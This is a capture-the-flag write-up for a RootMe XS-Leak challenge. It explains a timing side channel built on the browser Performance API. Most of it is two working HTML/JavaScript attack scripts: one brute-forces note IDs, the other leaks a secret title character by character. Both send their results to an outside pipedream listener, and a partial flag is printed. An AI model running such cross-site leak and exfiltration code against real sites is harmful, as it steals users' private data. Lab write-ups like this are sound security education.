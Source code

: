 ```yaml
---
title: "Rootme CTF - XsLeaks"
tags:
  - client side
  - web
  - CTF 
---
```


# XSLeak - Abusing Performance API - RootMe

## **Overview**

In this task, we will exploit a timing side-channel vulnerability in a web application's note search functionality. The application shows different response times based on the validity of the input, allowing us to infer sensitive information through timing attacks. First, we need to identify the admin user's ID.

## **Performance API Overview**

The Performance API provides detailed timing data about the performance of web applications. Using `performance.now()`, the script can capture timestamps with sub-millisecond accuracy. This precision is crucial in timing attacks, where the difference in processing time between valid and invalid inputs is often minimal.

Now we can see that when a valid character is appended to the URL, the server takes more time to respond compared to when an invalid character is appended. This likely results from additional server-side processing for valid inputs, such as database queries or data rendering, which are not triggered by invalid inputs. By measuring these timing differences, the script can deduce the correct characters one by one.

![image.png](./images/xsleaks.png)

## **Finding the Admin User ID**

To find the admin user's ID, we can brute-force possible user IDs by probing the server and monitoring the responses. The script below performs this task by injecting scripts into the page and checking which IDs trigger a response.

### **Admin User ID Brute-force Script**

```html
<!DOCTYPE html>
<html>
<head>
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <title>Find Admin ID</title>
</head>
<body>
<script type="text/javascript">
const listener = 'https://en0z1k1c8dwr9e.x.pipedream.net/';

function gotIt(id) {
    fetch(listener + '/?id=' + id, {"method": "GET", "mode": "no-cors"});
}

function probeError(url) {
    let script = document.createElement('script');
    script.src = url;
    script.onload = () => gotIt(url.split('/').pop());
    document.head.appendChild(script);
}

for(let i = 350; i <= 400; i++) {
    probeError(`https://web-client-ch56.challenge01.root-me.org:58056/notes/${i}`);
}
</script>
</body>
</html>

```

Once the admin ID is discovered, we can perform a timing attack to extract sensitive information by measuring the response time of different requests.

```html
<!DOCTYPE html>
<html>
<head>
    <title>Leak</title>
</head>
<body>
<script>
function sleep(ms) {
    return new Promise(resolve => setTimeout(resolve, ms));
}

async function sendCharacterToEndpoint(char, titleSoFar) {
    const img = new Image();
    img.src = `https://en0z1k1c8dwr9e.x.pipedream.net/?flag=${titleSoFar}`;
    document.body.appendChild(img);
}

async function measureLoadTime(url) {
    return new Promise((resolve) => {
        const start = performance.now();
        const image = new Image();
        image.src = url;
        image.onerror = function() {
            const end = performance.now();
            const time = end - start;
            resolve(time);
        };
    });
}

async function leak() {
    const possibleChars = "!\"#$%&'()*+,-./0123456789:;<=>?@ABCDEFGHIJKLMNOPQRSTUVWXYZ[\\]^_`abcdefghijklmnopqrstuvwxyz{|}~";
    const targetOrigin = 'https://web-client-ch56.challenge01.root-me.org:58056/notes/392/';
    let discoveredTitle = 'zC4R3_4B0UT_+S4MES1T3_C00K13';

    while (true) {
        let foundChar = false;
        for (let i = 0; i < possibleChars.length; i++) {
            const url = targetOrigin + discoveredTitle + encodeURIComponent(possibleChars[i]);
            const time = await measureLoadTime(url);
            console.log(`This Character: ${possibleChars[i]} took ${time} ms`);
            if (time > 2000) {
                discoveredTitle += possibleChars[i];
                console.log(discoveredTitle);
                foundChar = true;
                await sendCharacterToEndpoint(possibleChars[i], discoveredTitle);
                break;
            }
            await sleep(100);
        }
        if (!foundChar) break;
        await sleep(2000);
    }
    console.log(`Final discovered title: ${discoveredTitle}`);
}

leak();
</script>
</body>
</html>

```

## **Resources**

- [Performance API Documentation](https://developer.mozilla.org/en-US/docs/Web/API/Performance)